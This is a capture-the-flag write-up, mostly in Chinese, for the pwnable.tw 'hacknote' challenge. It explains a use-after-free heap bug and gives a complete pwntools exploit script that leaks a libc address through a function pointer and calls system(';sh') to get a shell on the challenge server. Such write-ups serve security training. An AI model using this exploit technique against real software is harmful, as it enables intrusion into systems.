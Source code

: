 # poc

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

> uaf -> 泄漏libc -> 执行system("&system;sh\x00")

`free`只释放内存，没置空指针，因此考虑申请node0及node1，note长度要大于12，然后释放node0，node1，再申请node2，最长可以控制node0的12B内存。而node0前4B是调用`puts`，参数是后4B，因此考虑泄漏`libc`中某个函数的地址，从而得到`system`地址。释放node2，申请node3仍可修改node0内容，其中前4B替换为`system`，但参数变为`system`地址开始的字符串，`system`参数需要用`;`进行间隔才能正确拿shell，因此后面内容设置为`;sh\x00`即可。（注意`'\n'`也是一个字符，会影响长度)

# exp

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

DEBUG = 0

f = ELF('hacknote.dms')

if DEBUG:
    p = process('hacknote.dms')
    gdb.attach(p)
    e = ELF('libc-2.23.so')
else:
    p = remote('chall.pwnable.tw', 10102)
    e = ELF('libc_32.so.6')

def add(size, content):
    p.recvuntil(':')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(str(size))
    p.recvuntil(':')
    p.sendline(str(content))

def free(index):
    p.recvuntil(':')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(str(index))

def prt(index):
    p.recvuntil(':')
    p.sendline('3')
    p.recvuntil(':')
    p.sendline(str(index))

add(100, 1)
add(100, 1)
free(0)
free(1)

puts = 0x0804862B
puts_got = f.got['puts']

add(9, p32(puts) + p32(puts_got))
prt(0)

puts_addr = u32(p.recv(4))
libc_base = puts_addr - e.symbols['puts']
system_addr = libc_base + e.symbols['system']

free(2)
add(9, p32(system_addr) + ';sh\x00')
prt(0)

p.interactive()
```
